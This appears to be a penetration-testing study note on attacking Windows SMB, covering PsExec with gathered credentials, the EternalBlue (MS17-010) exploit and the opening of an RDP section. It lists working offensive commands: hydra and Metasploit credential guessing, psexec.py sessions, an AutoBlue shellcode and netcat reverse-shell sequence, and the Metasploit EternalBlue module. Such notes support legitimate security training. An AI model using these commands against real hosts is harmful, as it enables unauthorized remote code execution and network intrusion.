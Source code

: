     

### Exploiting SMB with PsExec

SMB (Server Message Block) is used for sharing network resources like files, peripherals, etc, between Windows hosts (445/TCP). SAMBA is open-source implementation of SMB on Linux, allows Windows hosts to access Linux shares and devices.

SMB have 2 layers of authentication:

- User authentication: username & password for accessing a share
- Share authentication: a **password** for accessing a restricted share

![240802_17h37m09s_screenshot.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/5b559fd1-44a9-48a9-ace5-96e04c706280/ab21e406-fa30-4369-a24f-efbd9883f6ae/240802_17h37m09s_screenshot.png)

**PsExec** is telnet-replacement lightweight tool by Microsoft. Used for interacting (arbitrary commands) with remote Windows hosts via **SMB (smb credentials needed)**

**Exploitation** of SMB:

- credentials gathering: **`smb_login`** in Metasploit or `hydra`
- using PsExec: [`psexec.py`](http://psexec.py)- pyhton implementation of PsExec
    - [`psexec.py](http://psexec.py) username@<ip>` - then we enter the **password** like in SSH, we get a command session
- using PsExec in **Metasploit**: `smb/psexec` exploit module

### EternalBlue (MS17-010/CVE-2017-0144)

**SMBv1** service on Windows hosts are vulnerable to **RCE**. Attackers send specially crafted packets to the server, those packets include payloads and malformed packets, buffer overlow happpens, and payloads are executed, which causes **RCE because of sent payloads.** Attackers can access the server and the network that the server is a part of. EternalBlue is an exploit name.

**Exploitation**:

- Nmap script for checking: nmap `—script=smb-vuln-ms17-010`
- using AutoBlue tool (from GitHub)
    - first we generate a reverse_tcp **shell** with `./shell_prep.sh` in **/shellcode**
        - then listener: `nc -nlvp 1234`
            - then `python3 eternalblue_exploit10.py <target ip> shellcode/sc_x64.bin` - for exploiting
                - then we get a **meterpreter** session in netcat

OR 

- `msfconsole -q`
    - we can use `smb/ms17_010_eternalblue` exploit module
        - `set RHOSTS <target ip>` and `run`

**—No Credentials Needeed—**

### Exploiting RDP

RDP (Remote Desktop Protocol) - a GUI protocol, used for accessing remote Windows hosts. (3389/TCP)

*******The default port for RDP can be changed, when we see a Microsoft service without a blank version, it is possible that this can be **RDP.**
